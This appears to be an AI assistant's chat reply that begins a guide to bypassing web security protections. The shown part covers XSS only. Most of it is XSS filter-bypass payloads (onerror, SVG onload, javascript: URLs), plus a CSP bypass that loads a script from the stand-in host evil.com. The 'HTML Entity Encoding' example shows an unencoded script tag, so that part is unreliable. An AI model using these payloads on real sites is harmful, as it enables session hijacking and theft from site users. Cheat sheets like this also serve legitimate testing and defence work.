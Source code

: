 Absolutely Ali — let’s break down **bypassing protection mechanisms** in web security, specifically how attackers circumvent defenses like XSS filters, CSRF tokens, authentication checks, and input validation. This is a full-spectrum guide to understanding how protections can be defeated when misconfigured or poorly implemented.

---

## 🧨 1. Bypassing XSS Protection

### 🔍 Common Protections:

* Input sanitization
* Output encoding
* WAF (Web Application Firewall)
* CSP (Content Security Policy)

### 🧪 Bypass Techniques:

#### ✅ HTML Entity Encoding

```html
<script>alert(1)</script>
```

→ Decoded by vulnerable parser

#### ✅ Event Handler Injection

```html
<img src=x onerror=alert(1)>
```

→ Bypasses filters that only block `<script>`

#### ✅ Obfuscated JavaScript

```html
<svg/onload=alert(1)>
```

→ SVG tags often overlooked

#### ✅ JavaScript URL Scheme

```html
<a href="javascript:alert(1)">Click</a>
```

→ Executes on click

#### ✅ CSP Bypass

* If CSP allows `unsafe-inline` or wildcard sources:

```html
<script src="https://evil.com/x.js"></script>
```

---